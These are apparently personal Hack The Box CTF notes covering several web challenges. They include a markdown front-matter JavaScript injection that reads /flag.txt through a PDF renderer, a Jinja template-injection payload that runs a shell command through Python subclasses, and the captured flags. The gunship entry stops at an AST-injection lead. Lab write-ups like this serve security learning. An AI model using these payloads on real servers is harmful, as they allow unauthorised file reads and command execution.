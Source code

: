 # blinker fluids htb


examining the code we can see in the docker file

```
# Add flag
COPY flag.txt /flag.txt
```
and we see a fake flag for testing as well.

while creating pdf we see

```
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 

```
https://heinandre.no/htb-cyber-apocalypse-2022/web/blinker-fluids/

first we look at the databases and imports.
we see any templating engine then we can try and inject.

while trying iframe injection I was able to inject an iframe but no flag text file still.


```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---

```
HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}

# templated htb

when we go to http://159.65.58.189:31882/

we can see that site is still under construction and uses jinja templates

so straight away template injection comes to mind.

but need to run dirbuster to get to any good sites.

https://ireadyoulearn.info/2021/06/19/server-side-template-injection-hack-the-box-walkthrough/

trying with /config

```
Error 404

The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```

```
{{''.__class__.__mro__[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

# phonebook

after doing passwird bruteforcing it worked.

# gunship

while looking at the code I could see the line 

`pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })`

maybe if instead of 'guest we can put something else?

AST injection was the original hint in one of the comments in the machine

looking at AST injection

